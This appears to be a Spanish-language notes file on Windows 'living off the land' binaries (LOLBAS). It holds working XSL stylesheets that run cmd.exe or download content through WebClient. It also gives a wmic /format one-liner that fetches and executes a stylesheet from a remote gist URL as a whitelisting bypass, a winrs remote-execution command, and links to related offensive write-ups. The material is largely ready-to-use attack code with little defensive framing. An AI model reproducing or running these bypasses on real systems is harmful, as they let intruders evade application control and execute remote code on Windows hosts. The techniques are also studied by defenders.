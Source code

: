 #  LOLBin
https://twitter.com/search?q=%23LOLBin

# LOLBAS
* https://github.com/api0cradle/LOLBAS
* https://github.com/api0cradle/LOLBAS/tree/master/OSBinaries
* https://github.com/api0cradle/LOLBAS/tree/master/OSLibraries
* https://github.com/api0cradle/LOLBAS/tree/master/OSScripts
* https://github.com/api0cradle/LOLBAS/tree/master/OtherBinaries

# Mostrar los procesos que se están ejecutando en Windows con WMIC
https://www.jesusninoc.com/2018/05/01/mostrar-los-procesos-que-se-estan-ejecutando-en-windows-con-wmic/

# XML 
https://www.w3schools.com/xml/simplexsl.xml

# XSL
https://www.w3schools.com/xml/simple.xsl

# XSL que ejecuta CMD
https://gist.githubusercontent.com/caseysmithrc/68924cabbeca1285d2941298a5b91c24/raw/78065ca63504c9a0f41107137fbe861de487e4d4/minimalist
```XSL
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("cmd.exe");
	]]> </ms:script>
</stylesheet>
```

# XSL que descarga
https://gist.githubusercontent.com/caseysmithrc/4932a527e326de68f3bd212913d02c78/raw/8dd9696e937a7e66972a2e95c0d65a83ec9e3d7c/dotnet.xsl
```XSL
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
		
			
	var manifest = '<?xml version="1.0" encoding="UTF-16" standalone="yes"?><assembly manifestVersion="1.0" xmlns="urn:schemas-microsoft-com:asm.v1"><assemblyIdentity name="System" version="4.0.0.0" publicKeyToken="B77A5C561934E089" /><clrClass clsid="{7D458845-B4B8-30CB-B2AD-FC4960FCDF81}" progid="System.Net.WebClient" threadingModel="Both" name="System.Net.WebClient" runtimeVersion="v4.0.30319" /></assembly>';
	
	try {
		var ax = new ActiveXObject("Microsoft.Windows.ActCtx");
		ax.ManifestText = manifest;
		
		var obj = ax.CreateObject("System.Net.WebClient");
		var webstuff = obj.DownloadString("http://www.example.com");
		var a = new ActiveXObject("WScript.Shell").Popup(webstuff);
		
	} catch(e) {
		WScript.Echo("Error: " + e.message);
	}
	]]> </ms:script>
</stylesheet>
```

# WMIC.EXE Whitelisting Bypass - Hacking with Style, Stylesheets
https://subt0x11.blogspot.com.es/2018/04/wmicexe-whitelisting-bypass-hacking.html

```CMD
wmic os get /format:”https://gist.githubusercontent.com/caseysmithrc/68924cabbeca1285d2941298a5b91c24/raw/78065ca63504c9a0f41107137fbe861de487e4d4/minimalist”
```

# WMIKatz - Are you afraid
https://gist.github.com/caseysmithrc/9b53bc3c1201cdce5d2d8663d868ebc6

# Hack With XSLT
https://evi1cg.me/archives/Hack_With_XSLT.html

# CSharp, DotNetToJScript, XSL
https://rastamouse.me/2018/05/csharp-dotnettojscript-xsl/

# WInRm Via Use winrs .exe in Launch Command Remotely
```CMD
#EnableAccess  
winrm.exe quickconfig
winrs -r:http://#SystemName:5985 -u:Domain\#Username "calc.exe"
```
# Hacking around HTA files
http://blog.sevagas.com/?Hacking-around-HTA-files

